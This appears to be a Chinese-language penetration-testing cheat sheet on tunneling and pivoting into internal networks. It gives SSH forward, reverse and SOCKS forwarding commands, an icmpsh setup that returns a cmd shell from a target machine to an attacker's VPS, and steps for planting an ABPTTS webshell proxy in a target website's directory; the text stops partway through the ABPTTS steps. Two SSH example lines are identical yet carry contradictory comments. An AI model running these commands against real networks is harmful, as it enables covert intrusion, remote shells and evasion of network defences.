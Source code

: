 ### 端口转发
```
ssh -qTfnN -L hostport:host:port -l user remote_ip #正向隧道
ssh -qTfnN -R port:host:hostport -l user remote_ip #反向隧道
```
举个例子  
```
ssh -N -R 5555:192.168.2.100:5556 username@host  # 5555是本地端口，本地访问5555就是访问vps的5556。
ssh -N -R 5555:192.168.2.100:5556 username@host  # 5555是vps的端口，访问vps的5555就是访问本地的5556。
```
### 正向代理
```
SSH -qTfnN -D port remotehost #直接进行socks代理
ssh -qTfnN -D 6080 user@theserver #在本地终端中运行
``` 
然后在浏览器或者软件中设置好代理参数   
socks5: 127.0.0.1:6080 后便可以使用.  
-q：静默运行   
### 远程转发(反向)  

第一步：  
sudo python -m SimpleHTTPServer 80  
在目标机子开启80端口服务  
第二步：  
`ssh -p 22 -qngfNTR 6666:localhost:22 VPS-user@VPS`  
这样就把目标本地的22端口转发到了远程机器（VPS）的6666端口  
第三步： 
个人PC机器直接使用语句:  
`ssh -p 6666 -qngfNTD 6767 内网用户@VPS`  
这样就可以直接穿透网络，进入到内网，本地机器直接使用SOCKS5代理127.0.0.1:6767便能够直接访问到目标内网当中  

## ICMP隧道
ICMP隧道是通过将任意数据注入发送到远程计算机的回送数据包来工作的。要判断是否能使用ICMP隧道，我们只需要关注一件事情：可以ping一个外部服务器。如果能到达外部网络，，那么很有可能可以建立一个icmp隧道。缺点是需要root/administrator权限。  

### icmpsh
vps上：    
```
git clone https://github.com/inquisb/icmpsh.git
apt-get install python-impacket
sysctl -w net.ipv4.icmp_echo_ignore_all=1
python icmpsh_m.py 39.xxx.xxx.17 182.xxx.xxx.207
```
靶机上：  

`icmpsh.exe -t 39.xxx.xxx.17 -d 500 -b 30 -s 128`  
就会在vps上接到一个cmdshell。  

## HTTP代理
### abptts
[项目地址](https://github.com/nccgroup/ABPTTS)    
首先,安装好工具所需的各种py依赖库:  
```
pip install pycrypto    加密库,整个数据加密都要靠这个  
pip install httplib2  
```
生成好服务端(webshell)，-o用来指定要生成到的目录，然后把生成好的对应类型的代理脚本扔到目标网站目录中，并尝试访问该脚本，如果返回了一段类似hash的数据,说明代理端执行正常,继续进行后面的步骤即可，如下:  
```
python abpttsfactory.py -o webshell
abppts_webshell
abppts_webshell_request
```